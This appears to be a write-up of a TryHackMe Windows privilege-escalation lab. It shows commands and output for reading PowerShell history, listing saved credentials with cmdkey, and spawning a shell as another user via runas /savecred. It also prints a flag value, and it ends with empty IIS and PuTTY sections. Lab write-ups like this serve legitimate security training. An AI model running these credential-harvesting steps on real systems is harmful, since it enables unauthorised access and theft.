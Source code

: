 # About This Module
Module link: https://tryhackme.com/room/windowsprivesc20

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/08/2023

# PowerShell History
1. Started this room's machine
2. `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` from the compromised Windows machine
```PowerShell
C:\Users\thm-unpriv>%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

![]()

# Saved Windows Credentials
1. Started this room's machine
2. `cmdkey /list`
```PowerShell
C:\Users\thm-unpriv>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=WPRIVESC1\mike.katz
    Type: Domain Password
    User: WPRIVESC1\mike.katz
```
3. `runas /savecred /user:WPRIVESC1\mike.katz cmd.exe`
```PowerShell
C:\Users\thm-unpriv>runas /savecred /user:WPRIVESC1\mike.katz cmd.exe
Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...
```
```PowerShell
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

4. `dir <FLAG TEXT FILE PATH>`
```PowerShell
C:\Windows\system32>type C:\Users\mike.katz\Desktop\flag.txt
THM{WHAT_IS_MY_PASSWORD}
```

5. `PowerShell`
```PowerShell
C:\Windows\system32>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```
6. `(Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\InetStp').MajorVersion`
```PowerShell
PS C:\Windows\system32> (Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\InetStp').MajorVersion
10
```

# IIS Configuration

# Retrieve Credentials from Software: PuTTY
